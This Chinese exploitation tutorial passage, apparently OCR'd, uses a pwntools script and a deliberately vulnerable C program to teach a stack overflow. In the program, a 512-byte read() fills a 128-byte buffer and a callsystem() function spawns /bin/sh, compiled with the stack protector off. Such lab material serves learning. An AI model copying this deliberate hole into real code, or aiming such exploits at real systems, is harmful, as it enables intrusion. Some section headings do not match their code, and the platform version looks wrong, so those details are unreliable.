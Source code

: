 通过几个例子来了解常见的几种保护手段和熟悉常见的攻击手法。实践平台 ubuntu 14.16\_x64

### 实践 1 栈溢出利用溢出改变程序走向

#### 编译测试用例

```
#!/usr/bin/python
# -\*- coding: UTF-8 -\*-
import pwn
...
# Get PID(s) of target. The returned PID(s) depends on the type of target:
m\_pid=pwn.proc.pidof(p)\[0\]
print("attach %d" % m\_pid)
pwn.gdb.attach(m\_pid) # 链接gdb调试，先在gdb界面按下n下一步返回python控制台enter继续(两窗口同步)

print("\\n##########sending payload##########\\n")
p.send(payload)

pwn.pause()
p.interactive()
```

检测如下:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void callsystem()
{ system("/bin/sh"); }
void vulnerable\_function() {
    char buf\[128\];
    read(STDIN\_FILENO, buf, 512);
}
int main(int argc, char\*\* argv) {
    write(STDOUT\_FILENO, "Hello, World\\n", 13);
// /dev/stdin    fd/0
// /dev/stdout   fd/1
// /dev/stderr   fd/2
    vulnerable\_function();
}
编译方法：#!bashgcc -fno-stack-protector linux\_x64\_test1.c -o linux\_x64\_test1 -ldl //禁用栈保护
```

发现没有栈保护，没有 CANARY 保护

#### 生成构造的数据

这里用到一个脚本 pattern.py 来生成随机数据，来自这里

```
gdb-peda$ checksec linux\_x64\_test1
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
